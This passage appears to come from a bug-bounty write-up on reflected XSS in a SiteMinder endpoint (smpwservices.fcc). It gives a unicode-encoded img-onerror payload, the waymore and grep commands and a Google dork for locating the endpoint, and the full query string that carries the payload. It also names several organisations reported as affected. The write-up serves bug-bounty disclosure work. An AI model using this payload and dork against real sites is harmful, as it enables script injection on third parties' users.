 ```scss
\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\ u003e.
```

Quickly I tried to find similar endpoints in my private targets by grepping the `waymore` archived URLs like below:

```bash
waymore -i domain.com -mode U -oU waymore_domain.txt
cat waymore_domain.txt | grep "/siteminderagent/forms/smpwservices.fcc"
```

				Guess what… I found none 🫠

**Next, I shifted to dorking**

```javascript
inurl:/siteminderagent/forms/smpwservices.fcc
```

After smpwservices.fcc I added the same params with that unicoded payload.

```javascript
?SMAUTHREASON=7&USERNAME=\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\ u003e. 
```

> **RXSS at Nokia**

![None](https://miro.medium.com/v2/resize:fit:700/1*I4Y3YeT98opDovQSgILvjw.png)


> **RXSS at chrysler.com**

![None](https://miro.medium.com/v2/resize:fit:700/1*eE1ctdhyVY2WhKG6lx2mUA.png)

> **RXSS at wm.com**

![None](https://miro.medium.com/v2/resize:fit:700/1*QBhPhsT9Y1N1pEfNTlOFIw.png)

> **RXSS at cardinalhealth.com**

![None](https://miro.medium.com/v2/resize:fit:700/1*WtoJQjL3mROyncgH8dtaUA.png)

> **RXSS at hud.gov**

![None](https://miro.medium.com/v2/resize:fit:700/1*66qufWdfJuRAIhgKSfI3_Q.png)

Sometimes, you may ask like "_**What's the use of disclosing the endpoint after the vulnerability is fixed?**_"

My short answer is "_**Try to find the same endpoint, path, or param names in other subdomains, and also other targets with BBP or VDP policy**_"

# Find RXSS using Nuclei (DAST)

There are many ways to find parameters where the user input is getting reflected, this is just one such example using Nuclei (DAST). **Other methods I discussed are included in the below collection of XSS writeups**
